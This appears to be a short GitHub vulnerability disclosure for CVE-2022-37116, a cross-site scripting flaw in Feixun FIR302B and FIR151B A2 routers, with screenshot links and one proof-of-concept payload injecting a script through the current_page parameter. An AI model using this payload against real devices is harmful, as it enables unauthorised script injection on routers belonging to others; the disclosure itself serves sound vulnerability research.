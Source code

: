 # feixun-xss
# CVE-2022-37116

## Affected models: FIR302B、FIR302B A2、FIR151B A2 


### FIR302B   
![image](https://user-images.githubusercontent.com/72059221/180923899-f89ee4d9-1d67-4519-ae64-7862de8e4f12.png)   



### FIR151B A2  
![image](https://user-images.githubusercontent.com/72059221/180923638-4318f198-6953-415a-a5c2-c9674d2b4392.png) 



## Payload

```
current_page=</script><script>alert("XSS")</script>;//
```

![image](https://user-images.githubusercontent.com/72059221/180924002-2a856f5e-36c6-4a18-8470-91db505da403.png)  





![image](https://user-images.githubusercontent.com/72059221/180924075-f26ca398-50a4-4749-9a77-59b1d1c1fbce.png)

![image](https://user-images.githubusercontent.com/72059221/180924150-5c7565db-4423-4f3b-acb4-2d01178e355c.png)
